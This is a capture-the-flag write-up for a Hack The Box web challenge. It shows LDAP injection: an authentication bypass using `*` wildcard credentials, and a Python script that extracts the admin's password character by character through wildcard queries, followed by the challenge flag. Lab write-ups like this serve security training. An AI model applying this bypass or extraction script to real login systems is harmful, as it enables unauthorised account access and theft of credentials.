 # [Phonebook](https://app.hackthebox.com/challenges/phonebook)

## Analysis

detected LDAP syntax after try enter special characters of LDAP:
![detect-ldap.png](./img/challenge-2-detect-ldap.png)

## Solutions

guess the LDAP code in the server-side:

```ldap
(&(username=...)(password=...))
```

Login with credentials `*`:`*`, try using the search function, depending on the pre-login message in the login page, we can know that reese is the admin:

![pre-login.png](./img/challenge-2-pre-login.png)

Find reese account and login:

![search-reese.png](./img/challenge-2-search-reese.png)

But I see anything, try to login to another account but can't login to any other account, only Reese account.

Try to login to reese account with password of HTB flag pattern then:
![password-flag-pattern.png](./img/challenge-2-password-flag-pattern.png)

Find flag:

Solution 1, use burpsuite's intruder to find every character of the password:
![burp-intruder.png](./img/challenge-2-burp-intruder.png)
however this method is too brrrrr.

so I tried to write a python script to solve this challenge:

```python
import requests, string

flag = "HTB{"

allchar = string.printable.replace('*', '')

while True:
    check = False
    for c in allchar:
        resp = requests.post("http://178.62.95.229:32078/login", data={"username":"reese", "password":flag + c + "*}"}, allow_redirects=False)
        if resp.status_code == 302 and '/login?message=Authentication%20failed' not in str(resp.headers):
            flag += c
            check = True
            break
    print(flag)
    if not check:
        print('Flag: ' + flag + '}')
        break
```

![python.png](./img/challenge-2-python.png)
Flag: `HTB{d1rectory_h4xx0r_is_k00l}`

## References

<https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/>
